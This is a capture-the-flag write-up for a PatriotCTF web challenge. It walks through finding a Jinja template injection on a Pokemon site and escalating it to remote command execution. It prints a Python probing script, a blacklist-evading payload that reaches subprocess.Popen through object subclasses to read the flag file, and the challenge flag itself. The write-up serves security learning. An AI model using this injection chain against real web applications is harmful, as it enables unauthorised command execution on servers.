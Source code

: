 ```yaml
---
layout: post
date: 2023-09-12 12:00:00 +0200
excerpt_separator: <!--more-->
title: "Pick your starter"
---
```


In this challenge, we exploit a Jinja template injection to get RCE.

<!--more-->

We have a website which displays Pokemon.

![Alt text](/assets/pctf/pick-your-starter-0.png)

The server header reports `Werkzeug` so we tried the `/console` endpoint.

> Checkout `debug=True` shell that `Werkzeug` offers and was behind the [2015 Patreon Hack](https://labs.detectify.com/2015/10/02/how-patreon-got-hacked-publicly-exposed-werkzeug-debugger/)

![](/assets/pctf/pick-your-starter-1.png)

## Vulnerability

After some experimentation, we discover that there is a **template injection attack**. Let's see the result for `/{{7*6}}`:

![Alt text](https://raw.githubusercontent.com/BasiliCS/writeups/pctf/pctf/web/pick-your-starter-2.png)

We also notice that many characters are blacklisted including `-`, `+`, `'`, `"`, `[` and `]`.

Although this webpage is entertaining, for the rest of this challenge we will be using a Python script with `BeautifulSoup` to extract the interesting text:

```py
import requests
from bs4 import BeautifulSoup
page = requests.get("http://chal.pctf.competitivecyber.club:5555/{{7*6}}")

soup = BeautifulSoup(page.content, "html.parser")

prefix_len = len("<h1>\"b'")
suffix_len = len("'\" isn't a starter Pokémon.</h1>")

extracted = str(soup.find_all("h1")[0])[prefix_len:-suffix_len]

print(extracted)
```

## Exploit

We would like to get RCE on the server. We want to access the Python base class `object` in order to access all subclasses of `object`, that is every available class in the program. Given the blacklist, we are able to do so using `()`. We can list all available classes with the `__subclasses__` method.

Here is the URL we built:
`http://chal.pctf.competitivecyber.club:5555/{{().__class__.__base__.__subclasses__()}}`

The response looks like this (the final list is a lot longer, this is just an extract):

```
"lt;class 'type'&gt;, &lt;class 'async_generator'&gt;, &lt;class 'bytearray_iterator'&gt;, &lt;class 'bytearray'&gt;, &lt;class 'bytes_iterator'&gt;, &lt;class 'bytes'&gt;, &lt;class 'builtin_function_or_method'&gt;, &lt;class 'callable_iterator'&gt;, &lt;
```

We are interested in the 455th element `subprocess.Popen`, as it will give us a shell.

We cannot use the `[` or `]` characters, so we have to use the `__getitem__` method.

Finally, we want to pass our string command to the constructor. This can be easily done using `request.args.shell` and passing an argument `?shell=cat /flag.txt` to our request.

The final URL is:
`"http://chal.pctf.competitivecyber.club:5555/{{().__class__.__base__.__subclasses__().__getitem__(455)(request.args.shell,shell=True,stdout=(1).__neg__()).communicate()}}?shell=cat ../flag.txt"`

## The flag

`PCTF(wHOS7H47PoKEmoN)`
